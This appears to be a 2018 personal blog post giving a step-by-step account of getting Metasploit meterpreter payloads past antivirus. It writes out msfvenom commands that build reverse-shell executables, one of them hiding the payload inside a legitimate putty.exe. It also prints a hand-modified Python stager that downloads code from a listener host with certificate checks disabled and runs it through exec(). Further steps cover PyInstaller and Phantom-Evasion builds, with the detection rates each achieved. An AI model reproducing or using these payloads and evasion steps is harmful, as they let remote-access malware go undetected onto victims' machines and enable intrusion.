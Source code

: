 ```yaml
---
layout: post
title:  "Anti-virus evasion"
date:   2018-11-06 00:00:00 +0000
categories: 
---
```


Let's look into some AV evasion.

The ultimate goal would be to bypass AV with a random executable. But let's start with a meterpreter.

First naive approach:

```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=172.16.52.211 LPORT=443 -f exe -o putty.exe
```

Resulting hash: 2e40c3010f4dda20ac328a650a2b86d7
VT detection rate: 46/66
Detected by Windows Defender: yes

Second, less naive approach:

```
msfvenom -x putty.exe -k -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=172.16.52.211 LPORT=443 -f exe -o putty2.exe
```

Legitimate `putty.exe` binary used is 32-bit version with hash b6c12d88eeb910784d75a5e4df954001.

Resulting hash: a0b6e343a620a2c581a2e3254ecf3c3b
VT detection rate: 42/64
Detected by Windows Defender: yes


The next test was with Veil framework. I tried different modules, but all had high detection rates.

The best result was with the following approach. Generate a meterpreter Python payload:

```
msfvenom -p python/meterpreter/reverse_https LHOST=172.16.52.211 LPORT=443 -o payload.py
```

Next, change the Python script. Add some comments, relocate variables, etc. From time to time, copy the Python script to Windows to check if Defender detects it.

The following script gave me no detection:

```
import urllib2 
import ssl
import code
import platform
import shutil
import ctypes

hs=[]
sc=ssl.SSLContext(ssl.PROTOCOL_SSLv23)
sc.check_hostname=False
sc.verify_mode=ssl.CERT_NONE
hs = [urllib2.HTTPSHandler(0,sc)]
o=urllib2.build_opener(*hs)
o.addheaders=[('User-Agent','Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko')]
a = o.open('https://172.16.52.211:8443/y6dMhbYuJ2qnt7Kj_FZ3WA9h4NKcMpHfiKeIAGUqjkRrlwr5T7-XlYeJQ6cZDZImtt-CWCpJGv_22eCUF37b9fvS8ctL-_rQX3FfxtNdWjlu2v9H9cYYBIL02FopC0YpipIgxwLgr8yBCTlBr4kBiGZxKkTxY6eOlc17fpW')
b = a.read()
exec(b)
```

I had to add some imports because when compiling with PyInstaller afterwards, it will complain about missing modules.

Next, compile with PyInstaller:

```
c:\python27-x64\scripts\pyinstaller --onefile --key haba meterpreter.py
```

The resulting file had the following characteristics:

* MD5: 0b8abf96d6c85d1ad360c5a5e99a56ab
* VT detection rate: 2/66
* Detected by Windows Defender: no

However, when executing the compiled binary, the meterpreter session will open, but a lot of functions (as `shell` for example) will not work. When executing the script with Python directly however, everything works. Some things get broken thus by compiling with PyInstaller.

In the end, this is not a satisfying solution as we cannot rely on the victim having Python on its box. But we can make a few interesting conclusions:

* Manually adapting code seems to be very effective in AV evasion, because we are not relying on some default templates of a well known tool.
* Converting Python meterpreters to native binaries with PyInstaller breaks them.

As a last test, I wanted to try Phantom-Evasion, the 2nd most starred repo on GitHub with the #evasion tag. The setup is not as streamlined as Veil, but the results are a little better.

I tried the `Windows C meterpreter/reverse_http Stager` module, 3 multiple processes behaviour and stripping of the binary. The resulting binary had the following characteristics:

* MD5: 7738cbdcdd71328f851e7f802a570658
* VT detection ratio: 24/66
* Detected by Windows Defender: No 

# Conclusion

In the end the most effective way seems to create its own tool or perform manual adjustments. This was trivial with a Python script. Doing this with a native binary is something else.

This will be one of my goals in the near future!

